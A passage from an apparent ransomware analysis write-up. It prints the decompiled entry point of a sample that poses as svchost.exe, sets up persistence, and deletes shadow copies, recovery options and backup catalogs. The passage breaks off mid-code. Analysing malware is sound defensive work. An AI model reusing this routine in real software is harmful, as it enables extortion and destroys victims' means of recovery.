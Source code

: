 We also have a file named read_it.txt with a ransomware note. This file seems to be generated in every folder.

![information](/images/phobos/phobos-07.png)

We will now study the code

## Code Analyze

### The Entry Point

```
Private Shared processName As String = "svchost.exe"

Private Shared Sub Main(args As String())
	If Program.AlreadyRunning() Then
		Environment.[Exit](1)
	End If
	If Program.checkSleep Then
		Program.sleepOutOfTempFolder()
	End If
	If Program.checkAdminPrivilage Then
		Program.copyResistForAdmin(Program.processName)
	ElseIf Program.checkCopyRoaming Then
		Program.copyRoaming(Program.processName)
	End If
	If Program.checkStartupFolder Then
		Program.addLinkToStartup()
	End If
	Program.lookForDirectories()
	If Program.checkAdminPrivilage Then
		If Program.checkdeleteShadowCopies Then
			Program.deleteShadowCopies()
		End If
		If Program.checkdisableRecoveryMode Then
			Program.disableRecoveryMode()
		End If
		If Program.checkdeleteBackupCatalog Then
```